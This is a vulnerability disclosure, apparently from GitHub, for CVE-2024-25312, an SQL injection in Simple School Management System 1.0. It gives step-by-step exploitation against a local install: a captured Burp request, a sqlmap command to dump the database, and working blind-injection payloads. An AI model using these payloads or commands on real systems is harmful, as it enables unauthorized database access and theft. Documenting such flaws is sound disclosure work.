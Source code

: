 # CVE-2024-25312 - Simple School Managment System - SQL Injection - 5
+ **Exploit Title:** Simple School Managment System - SQL Injection - 5
+ **Date:** 2024-01-02
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-25312

## Description:
Simple School Managment System 1.0 allows SQL Injection via the 'id' parameter at "School/sub_delete.php?id=5 ". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/School/index.php"
+ Login in
+ Click the Subject button
+ Then click delete-sunject button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /School/sub_delete.php?id=5 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/School/add_sub.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=hidk6npo6f802og8sqcir2veul
Connection: closee
```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id=(SELECT (CASE WHEN (2699=2699) THEN 5 ELSE (SELECT 3379 UNION SELECT 5775) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=5 AND (SELECT 9317 FROM (SELECT(SLEEP(5)))gyNy)
---
[05:56:07] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[05:56:07] [INFO] fetching current database
[05:56:07] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[05:56:07] [INFO] retrieved: school
current database: 'school'

```
+ current database: `school`

![Ekran görüntüsü 2024-02-01 140916](https://github.com/tubakvgc/CVEs/assets/74067343/3a6be269-daf7-4f35-afb9-18e42e982657)
